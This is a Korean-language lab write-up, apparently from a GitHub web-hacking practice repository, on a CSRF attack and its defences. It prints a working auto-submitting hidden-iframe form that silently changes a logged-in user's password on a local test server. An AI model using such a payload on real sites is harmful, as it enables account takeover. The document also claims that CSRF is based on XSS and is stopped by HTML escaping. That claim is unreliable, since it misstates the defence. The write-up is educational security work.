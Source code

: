 # CSRF 모의해킹
CSRF(Cross-Site Request Forgery) 공격은 인증된 사용자의 권한을 사용하여 악의적인 요청을 보내는 공격입니다. 이번 모의해킹에서는 공격자가 악성 요청을 보내어 다른 사용자의 비밀번호를 임의로 수정하는 공격을 다루었습니다.

## 공격 실습

공격자는 다음과같은 HTML 코드를 게시글에 작성합니다.
```html
<iframe name="ifr" width=0 height=0></iframe>
<FORM target="ifr" id="chpw" METHOD="POST" action="http://192.168.219.180/login/changepw_do.php">
<INPUT type="hidden" name="pw" value="1234">
</FORM>
<script>document.getElementById("chpw").submit();</script>
패스워드 변경 1234
```
해당 코드를 살펴보면 HTML 의 iframe을 이용하여 width 와 height를 모두 0으로 설정하여 보이지 않도록하고 비밀번호를 1234로 변경하도록하는 POST 요청을 보냅니다.

**1. 사용자의 원래 비밀번호**

![csrf_userpw](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_userpw.png)

**2. 사용자가 CSRF 공격이포함된 게시글 클릭**

![csrf_click](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_click.png)

**3. 사용자의 비밀번호가 변경됨**

![csrf_changedpw](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_changedpw.png)

## 대응 방안
- CSRF 토큰 사용: 서버 측에서 발급한 CSRF 토큰을 포함하여 요청을 보내도록 클라이언트에게 요청합니다. 이 토큰은 세션에 저장되어 있는 정보를 이용하여 생성됩니다. 공격자가 이 토큰을 알지 못하면 CSRF 공격을 수행할 수 없습니다.

- XSS 공격 방지: CSRF 공격은 기본적으로 XSS 공격에 기반한 공격이기 때문에 XSS 공격을 방어하면 CSRF 공격을 방어 할 수 있습니다.

## 방어 실습
![csrf_b](https://github.com/MLTree2/HK/blob/master/webH/image/csrf/csrf_B.png)

XSS 방어에서 사용된 [HTML Escaping](https://github.com/MLTree2/HK/tree/master/webH/2.%20XSS#html-%EC%9D%B4%EC%8A%A4%EC%BC%80%EC%9D%B4%ED%94%84)을 통하여 CSRF공격도 방어함을 볼 수 있다.
